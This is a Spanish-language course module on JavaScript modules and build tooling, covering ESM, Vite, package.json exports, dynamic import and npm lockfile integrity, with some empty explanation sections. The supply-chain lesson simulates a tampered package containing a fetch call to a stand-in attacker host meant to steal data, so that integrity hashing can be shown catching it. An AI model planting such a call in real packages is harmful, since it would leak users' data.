







# Módulo 7: Módulos modernos y herramientas de build


## Aprende construyendo


### Tema 1: ESM frente a CommonJS · Intermedio · 40 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### ► DE QUÉ TRATA
Al finalizar podrás crear y ejecutar un proyecto modular con ESM, reconocer un módulo CommonJS y diagnosticar el error que aparece al mezclar ambos formatos. Separarás el dominio de entregas del proyecto de su punto de entrada mediante exports nombrados.

#### ► CÓMO FUNCIONA


#### ► REGLA PRÁCTICA
Para código nuevo, usa ESM (`import`/`export`): al ser estático, una herramienta de build puede analizar el grafo de dependencias antes de ejecutar nada y eliminar lo que no se usa (tree-shaking). Solo recurre a `require` dinámico de CommonJS cuando necesites decidir en tiempo de ejecución qué módulo cargar, algo que ESM no permite de forma estática.

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Código y verificación

```bash
mkdir ejemplo-esm-cjs
cd ejemplo-esm-cjs
npm init -y
mkdir src
```

```text
academia-web/
├── package.json
└── src/
    ├── dominio/
    │   └── guia.js
    └── main.js
```

```json
{
  "name": "academia-web",
  "private": true,
  "type": "module",
  "scripts": { "start": "node src/main.js" }
}
```

```js
// Export nombrado: el consumidor conoce el nombre del contrato.
export const ESTADOS = Object.freeze({ CREADA: "CREADA" });

export function crearGuia(numero) {
  // El dominio construye un objeto válido; no imprime ni lee la terminal.
  if (!numero?.trim()) throw new TypeError("numero es obligatorio");
  return { numero, estado: ESTADOS.CREADA };
}
```

```js
// La ruta incluye la extensión porque este archivo se ejecuta directamente en Node.
import { crearGuia } from "./dominio/guia.js";

const guia = crearGuia("RF-101");
console.log(guia);
```

</details>

### Tema 2: Tree-shaking y code-splitting · Intermedio · 40 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### ► DE QUÉ TRATA
Al finalizar podrás diferenciar eliminación de código no usado y carga bajo demanda, generar un bundle de producción y comprobar ambos efectos inspeccionando artefactos reales. Optimizarás el reporte de entregas del proyecto con evidencia, no por suposición.

#### ► CÓMO FUNCIONA


</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Código y verificación


```bash
mkdir ejemplo-code-splitting
cd ejemplo-code-splitting
npm init -y
mkdir src
```

```bash
npm install --save-dev vite
npm pkg set scripts.dev="vite" scripts.build="vite build"
```

```js
export function resumenDiario(entregas) {
  // Este export sí se usa y debe permanecer en el chunk inicial.
  return `Entregas del día: ${entregas.length}`;
}

export function reporteNuncaUsado() {
  // Al no importarse y no tener efectos laterales, Rollup puede eliminarlo.
  return "MARCADOR_ELIMINADO";
}
```

```js
export function abrirAuditoria() {
  // Este texto permite localizar el módulo en el chunk diferido.
  console.log("AUDITORIA_CARGADA");
}
```

```js
import { resumenDiario } from "./reportes.js";

console.log(resumenDiario([{ numero: "RF-101" }]));

document.querySelector("#auditoria").addEventListener("click", async () => {
  // import() crea un límite de carga bajo demanda para el bundler.
  const { abrirAuditoria } = await import("./auditoria.js");
  abrirAuditoria();
});
```

</details>

### Tema 3: Vite y esbuild · Intermedio · 40 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### ► DE QUÉ TRATA
Al finalizar podrás crear desde una carpeta vacía una aplicación con Vite, explicar qué ocurre durante desarrollo y producción, ejecutar ambos modos e interpretar un error de resolución. El resultado será la primera interfaz web ejecutable del proyecto.

#### ► CÓMO FUNCIONA


</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Código y verificación


```bash
mkdir ejemplo-vite
cd ejemplo-vite
npm init -y
npm install -D vite
mkdir src
```

```bash
npm create vite@latest academia-web -- --template vanilla
cd academia-web
npm install
```

```js
import "./style.css";

const entregas = [
  { numero: "RF-101", estado: "CREADA" },
  { numero: "RF-102", estado: "EN_RUTA" },
];

// map transforma datos del dominio en elementos visuales independientes.
const elementos = entregas
  .map(({ numero, estado }) => `<li><strong>${numero}</strong> — ${estado}</li>`)
  .join("");

document.querySelector("#app").innerHTML = `
  <main>
    <h1>Academia</h1>
    <p>Entregas activas</p>
    <ul>${elementos}</ul>
  </main>
`;
```

```bash
npm run dev
```

```bash
npm run build
npm run preview
```

</details>

### Tema 4: package.json — exports, type y scripts · Intermedio · 40 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### ► DE QUÉ TRATA
Al finalizar podrás configurar type, scripts y exports con una intención concreta, ejecutar el contrato operativo del proyecto y diagnosticar JSON inválido o una exportación no autorizada. Dejarás este proyecto reproducible para otra persona.

#### ► CÓMO FUNCIONA


</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Código y verificación
```bash
mkdir ejemplo-package-exports
cd ejemplo-package-exports
npm init -y
mkdir src
```

```json
{
  "name": "academia-web",
  "private": true,
  "type": "module",
  "scripts": {
    "dev": "vite",
    "build": "vite build",
    "preview": "vite preview",
    "check": "npm run build"
  },
  "devDependencies": { "vite": "^7.0.0" }
}
```


```json
{
  "name": "@academia/dominio",
  "type": "module",
  "exports": {
    ".": "./src/index.js",
    "./estados": "./src/estados.js"
  }
}
```

```bash
npm run check
```

</details>

### Tema 5: import() dinámico e import.meta · Avanzado · 40 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### ► DE QUÉ TRATA
Al finalizar podrás cargar un módulo solo cuando el usuario lo solicite, manejar el rechazo de esa carga y resolver un recurso relativo con import.meta.url. Integrarás una auditoría diferida en el proyecto sin bloquear la experiencia principal.

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Código y verificación
```bash
mkdir ejemplo-import-dinamico
cd ejemplo-import-dinamico
npm init -y
mkdir src
```

```js
export function abrirAuditoria(contenedor) {
  // El módulo opcional recibe explícitamente el nodo donde debe renderizar.
  contenedor.textContent = "Auditoría cargada para RF-101";
}

export const rutaCatalogo = new URL("./datos/catalogo.json", import.meta.url);
```

```js
const boton = document.querySelector("#auditoria");
const estado = document.querySelector("#estado-auditoria");

boton.addEventListener("click", async () => {
  boton.disabled = true;
  estado.textContent = "Cargando auditoría…";

  try {
    // El navegador solicita este chunk únicamente al ejecutar import().
    const { abrirAuditoria } = await import("./auditoria.js");
    abrirAuditoria(estado);
  } catch (error) {
    console.error("No se pudo cargar auditoría", error);
    estado.textContent = "Auditoría no disponible. Intenta de nuevo.";
    boton.disabled = false;
  }
});
```

```bash
npm run dev
npm run build
```

</details>

### Tema 6: Webpack, Rollup y Babel/SWC · Avanzado · 45 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### ► DE QUÉ TRATA
Al finalizar podrás separar las responsabilidades de servidor de desarrollo, bundler y transformador, comparar alternativas con criterios medibles y registrar una decisión técnica. Mantendrás Vite en el proyecto o justificarás un cambio con evidencia reproducible.

#### ► CÓMO FUNCIONA


</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Código y verificación


```bash
mkdir ejemplo-build-tools
cd ejemplo-build-tools
npm init -y
mkdir src
```

```md
# ADR-001: herramienta de build del proyecto

## Contexto
La aplicación usa ESM, carga diferida y necesita desarrollo rápido.

## Alternativas
- Vite: servidor de desarrollo y build de aplicación.
- Webpack: ecosistema maduro y configuración granular.
- Rollup directo: control fino para bibliotecas.

## Decisión
Mantener Vite mientras soporte navegadores, plugins y despliegue requeridos.

## Consecuencias
Aceptamos su convención y mediremos build, chunks y compatibilidad en CI.
```

```js
import { readdir, stat } from "node:fs/promises";

const carpeta = new URL("../dist/assets/", import.meta.url);
const archivos = await readdir(carpeta);
const tamanos = await Promise.all(
  archivos.map(async (archivo) => (await stat(new URL(archivo, carpeta))).size),
);

// Una medición repetible es evidencia; una impresión subjetiva no lo es.
console.log({ chunks: archivos.length, bytes: tamanos.reduce((a, b) => a + b, 0) });
```

```bash
npm run build
node scripts/medir-build.js
```

</details>

### Tema 7: Módulos ES a fondo: top-level await, ciclos de importación e import maps · Avanzado · 45 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### ► DE QUÉ TRATA
Vas a crear cinco archivos pequeños y ejecutarlos con Node.js 22 o superior. Crea la carpeta academia-labs/javascript/esm-a-fondo. Todos los archivos usan la extensión .mjs, así Node los trata como módulos ES sin tocar package.json.

#### ► CÓMO FUNCIONA


</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Código y verificación


```json
{ "region": "bogota" }
```

```js
import { readFile } from 'node:fs/promises';

// Top-level await: quien importe este módulo espera a que el archivo se lea.
const texto = await readFile(new URL('./config.json', import.meta.url), 'utf8');
export const config = JSON.parse(texto);
```

```js
import { nombreB } from './b.mjs';

export const nombreA = 'A';
export function saludar() {
  return `A conoce a ${nombreB()}`;
}
```

```js
import { nombreA } from './a.mjs';

export function nombreB() {
  return 'B';
}

// Seguro: nombreA se lee cuando alguien llama la función, no durante la carga.
export function quienEsA() {
  return nombreA;
}
```

```js
import { config } from './config.mjs';
import { saludar } from './a.mjs';
import { quienEsA } from './b.mjs';

console.log(`Región: ${config.region}`);
console.log(saludar());
console.log(`B lee a A después de evaluar: ${quienEsA()}`);
```

</details>

### Tema 8: Cadena de suministro npm: lockfile, integridad y paquetes alterados · Avanzado · 45 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### ► DE QUÉ TRATA
Usa Node.js 18 o superior y una terminal. Crea la carpeta academia-labs/javascript/cadena-suministro. El ejemplo simula la publicación y la instalación sin descargar nada, así puedes alterar un paquete sin riesgo.

#### ► CÓMO FUNCIONA


</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Código y verificación


```js
import { createHash } from 'node:crypto';
import { writeFile } from 'node:fs/promises';

// Simula la publicación: el paquete original y una copia alterada.
const contenido = 'export const version = "1.0.0";\n';
await writeFile('rutas-util-1.0.0.tgz', contenido);
await writeFile('rutas-util-alterado.tgz', contenido + 'fetch("https://atacante.example/robar");\n');

// Simula la primera instalación: npm guarda el hash en el lockfile.
const integrity = 'sha512-' + createHash('sha512').update(contenido).digest('base64');
const lock = { lockfileVersion: 3, packages: { 'node_modules/rutas-util': { version: '1.0.0', integrity } } };
await writeFile('package-lock.json', JSON.stringify(lock, null, 2));
console.log(`lockfile registrado con ${integrity.slice(0, 20)}…`);
```

```js
import { createHash } from 'node:crypto';
import { readFile } from 'node:fs/promises';

function integridad(bytes) {
  return 'sha512-' + createHash('sha512').update(bytes).digest('base64');
}

const lock = JSON.parse(await readFile('package-lock.json', 'utf8'));
const esperado = lock.packages['node_modules/rutas-util'].integrity;

// Lo mismo que hace npm ci con cada archivo descargado.
for (const archivo of ['rutas-util-1.0.0.tgz', 'rutas-util-alterado.tgz']) {
  const real = integridad(await readFile(archivo));
  const veredicto = real === esperado ? 'coincide' : 'NO coincide, npm rechazaría la instalación';
  console.log(`${archivo}: ${veredicto}`);
}
```

```bash
cd academia-labs/javascript/cadena-suministro
node preparar.mjs
node verificar-integridad.mjs
```

```text
lockfile registrado con sha512-nnu+uJngDBWve…
rutas-util-1.0.0.tgz: coincide
rutas-util-alterado.tgz: NO coincide, npm rechazaría la instalación
```

</details>

### Comprueba lo construido

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Nota de construcción
Este tema es principalmente conceptual en esta versión. La verificación se realiza con las preguntas de comprensión y el criterio de cuándo NO usar comprueba lo construido.

</details>
